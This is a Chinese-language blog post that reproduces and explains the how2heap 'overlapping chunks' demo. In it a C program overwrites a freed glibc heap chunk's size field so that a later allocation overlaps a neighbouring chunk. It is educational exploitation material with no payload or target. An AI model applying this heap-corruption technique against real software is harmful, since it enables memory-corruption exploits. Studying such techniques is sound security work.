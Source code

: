 ```yaml
---
title: how2heap - overlapping chunks
categories:
  - how2heap
tags: null
published: true
---
```


# Overview

- [overlapping chunks](https://github.com/shellphish/how2heap/blob/master/overlapping_chunks.c)

```c
/*

 A simple tale of overlapping chunk.
 This technique is taken from
 http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf

*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

int main(int argc , char* argv[]){


	intptr_t *p1,*p2,*p3,*p4;

	fprintf(stderr, "\nThis is a simple chunks overlapping problem\n\n");
	fprintf(stderr, "Let's start to allocate 3 chunks on the heap\n");

	p1 = malloc(0x100 - 8);
	p2 = malloc(0x100 - 8);
	p3 = malloc(0x80 - 8);

	fprintf(stderr, "The 3 chunks have been allocated here:\np1=%p\np2=%p\np3=%p\n", p1, p2, p3);

	memset(p1, '1', 0x100 - 8);
	memset(p2, '2', 0x100 - 8);
	memset(p3, '3', 0x80 - 8);

	fprintf(stderr, "\nNow let's free the chunk p2\n");
	free(p2);
	fprintf(stderr, "The chunk p2 is now in the unsorted bin ready to serve possible\nnew malloc() of its size\n");

	fprintf(stderr, "Now let's simulate an overflow that can overwrite the size of the\nchunk freed p2.\n");
	fprintf(stderr, "For a toy program, the value of the last 3 bits is unimportant;"
		" however, it is best to maintain the stability of the heap.\n");
	fprintf(stderr, "To achieve this stability we will mark the least signifigant bit as 1 (prev_inuse),"
		" to assure that p1 is not mistaken for a free chunk.\n");

	int evil_chunk_size = 0x181;
	int evil_region_size = 0x180 - 8;
	fprintf(stderr, "We are going to set the size of chunk p2 to to %d, which gives us\na region size of %d\n",
		 evil_chunk_size, evil_region_size);

	*(p2-1) = evil_chunk_size; // we are overwriting the "size" field of chunk p2

	fprintf(stderr, "\nNow let's allocate another chunk with a size equal to the data\n"
	       "size of the chunk p2 injected size\n");
	fprintf(stderr, "This malloc will be served from the previously freed chunk that\n"
	       "is parked in the unsorted bin which size has been modified by us\n");
	p4 = malloc(evil_region_size);

	fprintf(stderr, "\np4 has been allocated at %p and ends at %p\n", p4, p4+evil_region_size);
	fprintf(stderr, "p3 starts at %p and ends at %p\n", p3, p3+80);
	fprintf(stderr, "p4 should overlap with p3, in this case p4 includes all p3.\n");

	fprintf(stderr, "\nNow everything copied inside chunk p4 can overwrites data on\nchunk p3,"
		" and data written to chunk p3 can overwrite data\nstored in the p4 chunk.\n\n");

	fprintf(stderr, "Let's run through an example. Right now, we have:\n");
	fprintf(stderr, "p4 = %s\n", (char *)p4);
	fprintf(stderr, "p3 = %s\n", (char *)p3);

	fprintf(stderr, "\nIf we memset(p4, '4', %d), we have:\n", evil_region_size);
	memset(p4, '4', evil_region_size);
	fprintf(stderr, "p4 = %s\n", (char *)p4);
	fprintf(stderr, "p3 = %s\n", (char *)p3);

	fprintf(stderr, "\nAnd if we then memset(p3, '3', 80), we have:\n");
	memset(p3, '3', 80);
	fprintf(stderr, "p4 = %s\n", (char *)p4);
	fprintf(stderr, "p3 = %s\n", (char *)p3);
}
```

# Overlapping Chunks

其实这个和 poison null byte 差不多，都是利用溢出改写 chunk 的 metadata 使得 chunks overlap，而 overlapping_chunks2 的手法跟 1 的区别也只是一个在 free 前修改 chunk size 一个在 free 后修改 chunk size，个人觉得 poison null byte 可以归类到 overlapping chunks 下。

话虽如此，我们还是来看看它和 poison null byte 有什么不同吧。

首先分配了三块内存，

```c
	intptr_t *p1,*p2,*p3,*p4;

	p1 = malloc(0x100 - 8);
	p2 = malloc(0x100 - 8);
	p3 = malloc(0x80 - 8);
```

free 掉 p2，

```c
free(p2);
```

然后开始构造 fake chunk，模拟溢出改写 p2 的 chunk size。

```c
	int evil_chunk_size = 0x181;
	int evil_region_size = 0x180 - 8;
	
	*(p2-1) = evil_chunk_size; 
```

改写之后再 malloc `evil_chunk_size` 大小的 chunk，p2 和 p3 也就交叠了。

运行结果：

![overlapping_chunks]({{ site.baseurl }}/images/overlapping_chunks.png)